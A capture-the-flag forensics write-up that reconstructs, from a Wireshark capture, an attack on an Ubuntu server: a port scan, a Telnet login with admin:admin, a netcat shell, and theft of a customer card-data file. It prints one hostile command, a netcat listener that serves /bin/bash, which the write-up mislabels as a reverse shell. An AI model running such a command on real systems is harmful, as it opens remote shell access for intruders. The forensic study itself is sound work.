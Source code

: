 # Market Dump Lab

**Date:** 2024-09-27

---

## Initial Setup

I started by downloading and extracting a zip file, which contained a **pcapng** file. I analyzed the file using **Wireshark**.

### IP Addresses:

- **10.0.2.15** → Attacker (hacker)
- **10.0.2.3** → Target

---

## Port Scan

The attacker performed a port scan on the target machine. The following ports were identified as open:

- **22** → SSH
- **23** → Telnet
- **53** → DNS
- **80** → HTTP

The target is running **Apache 2.4.29** on an **Ubuntu** server.

---

## Directory Bruteforce on Port 80

The attacker initiated a directory brute-force attack on port `80` (HTTP). Unfortunately, the specific directories found weren’t captured in the pcap, but it's clear the attacker was attempting to enumerate accessible paths on the web server.

---

## Telnet Access on Port 23

The attacker attempted to log in via Telnet on port `23`. After trying common credentials, they successfully logged in using:

- **Username:** `admin`
- **Password:** `admin`

Upon logging in, they were greeted with a stock report:

```
Welcome, admin

Here is your daily stock report!

PRODUCT   PRICE  STOCK
------------------------
SHIRTS    $20    50
JEANS     $40    99
WALLETS   $15    19
SOCKS     $10    100

Type exit to exit the program: exit
```

This session was captured in **Wireshark** under the filter: 

```bash
tcp.stream eq 1053
```

---

## Netcat Backdoor

After gaining access to the Telnet service, the attacker searched for the **netcat (nc)** binary on the system:

```bash
tcp.stream eq 1054
```

They then set up a reverse shell using **nc.traditional**, running the following command on the target system:

```bash
nc.traditional -lvp 9999 -e /bin/bash
```

This command was captured in the pcap:

```bash
tcp.stream eq 1055
```

With the listener running on port `9999`, the attacker established a connection and gained full shell access to the target system.

---

## Data Exfiltration

While browsing the target's filesystem, the attacker discovered a file named **customers.sql**, which contained sensitive data, including **American Express card numbers**.

The attacker downloaded the **customers.sql** file by setting up a transfer over port `9998`:

```bash
tcp.stream eq 1056
```

---

## Decoding the Flag

Inside the **customers.sql** file, I found a **Base58-encoded** value. After decoding it, I successfully extracted the **flag**.

---

## Summary

- The attacker initiated a port scan, revealing open services on the target.
- Successful Telnet login was achieved with default credentials (`admin:admin`).
- The attacker escalated access by setting up a reverse shell using **netcat**.
- Sensitive data, including **credit card information**, was exfiltrated from the target’s system.

---

## Resources

* [CyberChef](https://gchq.github.io/CyberChef/)

---
